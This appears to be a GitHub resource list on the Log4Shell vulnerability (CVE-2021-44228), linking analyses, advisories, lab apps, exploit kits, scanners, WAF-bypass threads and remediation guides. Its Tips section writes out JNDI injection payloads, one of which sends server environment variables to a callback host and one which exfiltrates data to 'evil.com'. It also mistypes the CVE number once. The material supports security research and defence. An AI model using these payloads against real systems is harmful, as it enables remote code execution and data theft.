 # Table of Contents
- [TL;DR](#tldr)
- [Technical analysis](#technical-analysis)
- [Advisories](#advisories)
- [Videos](#videos)
- [Intentionally vulnerable apps](#intentionally-vulnerable-apps)
- [Tools & Exploits](#tools--exploits)
- [Tips](#tips)
- [WAF bypasses](#waf-bypasses)
- [Mega threads](#mega-threads)
- [Remediation](#remediation)
- [Some vulnerable apps/vendors](#some-vulnerable-appsvendors)
- [TODO](#todo)

# TL;DR

Term | Description
---|---
**Log4j** | The vulnerable Java Library
**JndiLookup** | The vulnerable part of Log4j
**CVE-2021-442228** | The initial vulnerability
**Log4Shell** | The exploit developped to attack this vulnerability
**CVE-2021-45046** | The second vulnerability (bypass that causes denial of service)

[Source: CVE-2021-44228 Log4j (and Log4Shell) Executive Explainer by cje@bugcrowd](https://www.slideshare.net/caseyjohnellis/cve202144228-log4j-and-log4shell-executive-explainer-by-cjebugcrowd) (modified to add the second CVE)

![Log4Shell-timeline](https://user-images.githubusercontent.com/35920302/146178407-14f764fa-a2f9-4024-9265-0aeaa1a03599.png)

[Source: cutekernel.github.io](https://cutekernel.github.io/technical-illustrations/cves-2021.html)

![log4j_attack](https://user-images.githubusercontent.com/35920302/146178704-84116a6f-1016-43c4-b1f3-0552dfa0fb03.png)

[Source: govcert.ch](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

![log4shell png](https://user-images.githubusercontent.com/35920302/146170447-915c1f09-8b34-4390-8f1b-95f9cf892c7a.jpeg)

[Source: musana.net](https://musana.net/2021/12/13/log4shell-Quick-Guide/)

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (Great breakdown of the vulnerability in the first 15 min)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [Solar, exploiting log4j (TryHackMe room by @_JohnHammond)](https://tryhackme.com/room/solar)
- [PentesterLab Log4j RCE](https://pentesterlab.com/exercises/log4j_rce/course) & [Log4j RCE II](https://pentesterlab.com/exercises/log4j_rce_ii/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [woodpecker-appstore/log4j-payload-generator](https://github.com/woodpecker-appstore/log4j-payload-generator)
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse) (Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates)
- [@SilentSignalHU’s Log4Shell Scanner (Burp extension)](https://twitter.com/Burp_Suite/status/1470418532475314177)
- [ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan) & [How to combine it with Amass for higher coverage](https://twitter.com/jeff_foley/status/1470463924260777985)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rule](https://semgrep.dev/r?q=log4j-message-lookup-injection)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)
- [Burp Intruder in Pitchfork mode](https://twitter.com/ITSecurityguard/status/1470187651844161536)
- [LogMePwn](https://github.com/0xInfection/LogMePwn)

# Tips
- [The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)
- [How to attack any JDK version for log4j "without" guessing classpath on server?](https://twitter.com/aaditya_purani/status/1470487281572237312)
- [Some events are only logged when an exception occur, so specially long payloads with unexpected characters may help you trigger those exceptions.](https://twitter.com/pwntester/status/1470435811812380675)
- [If you omit the closing brace `}` (so the payload would look like `${jndi:ldap://evil.com/`), you will potentially get a bunch of data exfiltrated to your server until the next `}` appears in that data](https://twitter.com/TomAnthonySEO/status/1470374984749133825)
- [Attack path works in *ANY* java version](https://twitter.com/marcioalm/status/1470361495405875200)
- [If you’re scanning for Log4Shell at scale, you can easily determine which host is pinging back by adding it to the start of your callback hostname](https://twitter.com/hakluke/status/1469875175839584257)

# WAF bypasses
- <https://twitter.com/wugeej/status/1469982901412728832>
- <https://twitter.com/BountyOverflow/status/1470001858873802754>
- <https://twitter.com/h4x0r_dz/status/1469663187079417857>
- <https://twitter.com/ymzkei5/status/1469765165348704256>
- <https://twitter.com/wireghoul/status/1469473975449255941>
- <https://twitter.com/Rezn0k/status/1469523006015750146>
- <https://twitter.com/Laughing_Mantis/status/1470526083271303172>

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some vulnerable apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [NCSC-NL/log4shell](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)

# TODO
Add headers, payloads, data that can be exfiltarted, entry point examples & tools to receive OOB DNS requests.
